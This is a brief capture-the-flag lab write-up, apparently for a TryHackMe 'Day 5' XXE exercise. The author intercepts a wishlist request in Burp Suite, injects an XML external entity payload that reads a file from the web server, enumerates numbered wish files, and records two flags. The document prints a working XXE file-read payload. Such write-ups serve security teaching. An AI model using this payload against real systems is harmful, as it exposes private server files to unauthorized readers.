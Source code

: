 #  Day 5: SOC-mas XX-what-ee?


After going to `10.10.151.8`, I opened Burpsuite and turned on Intercept option.

When clicking on, Add to wishlist on a gift, I saw XML code in the intercepted request. I inject the following code:-

```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_1.txt"> ]>
<wishlist>
	<user_id>1</user_id>
	<item>
	       <product_id>&payload;</product_id>
	</item>
</wishlist>
```

Which showed me a popup like this:-

![img1](./images/5_1.png)

I kept iterating through the `wishnum.txt` files and on the 15th file I obtained a flag: `THM{Brut3f0rc1n6_mY_w4y}`

Then I inspected the CHANGELOG file, and got the other flag: `THM{m4y0r_m4lw4r3_b4ckd00rs}`
